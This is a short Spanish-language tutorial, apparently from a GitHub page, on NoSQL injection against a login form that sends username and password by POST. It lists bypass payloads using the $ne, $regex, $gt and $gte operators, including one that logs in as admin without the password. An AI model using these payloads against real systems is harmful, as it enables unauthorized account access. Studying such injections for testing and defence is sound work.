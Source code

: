 ## Caso de ejemplo:

Supongamos que tenemos un login que manda los datos por medio de un POST usando variables de "Username y password":

    username=mingo&password=mingita

Podríamos intentar injecciones que nos ayuden a bypassear el login mediante diferentes criterios:

### Autenticación negativa:

BUscamos un caso de resolución negativa. Luego agregamos a la variable del post la expresión [$ne]

    username[$ne]=mingo&password[$ne]=minga

De esta forma el loging buscara datos que no matcheen con los introducidos y nos dará el acceso como el primer dato de la lista(que usualmente es el admin :D ).

#### Si tuvieramos un usuario pero no su contraseña, podríamos también aplicarlo sobre el campo password:

    username=admin&password[$ne]=x

### Por expresiones regulares:

Podemos abusar de las expresiones regulares para poder traernos todos los registros y matcheará el primer registro como datos de login agregando la expresión [$regex]=.*

username[$regex]=.\*&password[$regex]=.\*


### Por length:

Podemos también aplicar lógica para validar todo dato cuyo length sea mayor a 0

        username[$gt]=&password[$gt]=


Otra opción con la misma lógica sería:

        username[$gte]=&password[$gte]=
